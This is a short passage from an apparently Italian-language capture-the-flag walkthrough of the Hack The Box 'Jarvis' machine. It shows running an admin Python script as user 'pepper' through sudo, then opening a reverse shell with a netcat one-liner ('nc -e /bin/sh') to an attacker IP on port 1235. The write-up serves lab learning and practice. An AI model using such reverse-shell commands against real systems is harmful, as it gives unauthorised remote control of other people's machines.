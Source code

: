 Quindi eseguo lo script python:

```text
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

E inserisco come input il seguente testo:

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-13.png"/>
</p>

Putroppo sembra che ci siano dei problemi sulla shell, in quanto non riesco a vedere l'output dei comandi che utilizzo. Quindi avvio un listener sulla porta 1235 e utilizzo il seguente comando per ricavare una nuova reverse shell:

```text
nc -e /bin/sh 10.10.14.7 1235
```

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-12.png"/>
</p>
